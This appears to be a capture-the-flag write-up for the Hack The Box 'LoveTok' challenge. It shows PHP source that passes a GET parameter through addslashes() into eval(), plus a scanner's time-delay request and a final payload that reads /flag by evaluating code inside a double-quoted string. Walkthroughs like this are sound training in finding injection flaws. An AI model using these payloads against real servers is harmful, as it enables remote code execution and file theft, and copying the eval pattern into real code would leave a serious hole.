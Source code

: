 # [LoveTok](https://app.hackthebox.com/challenges/lovetok)

## CHALLENGE DESCRIPTION

True love is tough, and even harder to find. Once the sun has set, the lights close and the bell has rung... you find yourself licking your wounds and contemplating human existence. You wish to have somebody important in your life to share the experiences that come with it, the good and the bad. This is why we made LoveTok, the brand new service that accurately predicts in the threshold of milliseconds when love will come knockin' (at your door). Come and check it out, but don't try to cheat love because love cheats back. 💛

## Scan

Burpsuite scanner: detected `PHP code injection`.

- request:

  ```http
  GET /?format=r%7b$%7bsleep(hexdec(dechex(20)))%7d%7d HTTP/1.1
  ```

- Issue detail: The format parameter appears to be vulnerable to PHP code injection attacks. The submitted value appears to be placed into a dynamically evaluated PHP statement, within a `double-quoted` context.  The payload `{${sleep(hexdec(dechex(20)))}}` was submitted in the format parameter. The application took 20004 milliseconds to respond to the request, compared with 0 milliseconds for the original request, indicating that the injected PHP code caused a time delay.

## Source code review

TimeController.php:

```php
<?php
class TimeController
{
    public function index($router)
    {
        $format = isset($_GET['format']) ? $_GET['format'] : 'r';
        $time = new TimeModel($format);
        return $router->view('index', ['time' => $time->getTime()]);
    }
}
```

- user controlled parameter `format` is passed to `TimeModel` class, then the `getTime` function is called.

TimeModel.php:

```php
<?php
class TimeModel
{
    public function __construct($format)
    {
        $this->format = addslashes($format);

        [ $d, $h, $m, $s ] = [ rand(1, 6), rand(1, 23), rand(1, 59), rand(1, 69) ];
        $this->prediction = "+${d} day +${h} hour +${m} minute +${s} second";
    }

    public function getTime()
    {
        eval('$time = date("' . $this->format . '", strtotime("' . $this->prediction . '"));');
        return isset($time) ? $time : 'Something went terribly wrong';
    }
}
```

- 1. `format` variable -> addslashes() method
- 2. `format` variable -> eval() method => code injection happened here.

## addslashes() method

Returns a string with backslashes added before characters that need to be escaped. These characters are:

- single quote (')
- double quote (")
- backslash (\)
- NUL (the NUL byte)

## Attack

`{${$flag=file_get_contents('/flag')}}`


## References

https://www.programmersought.com/article/30723400042/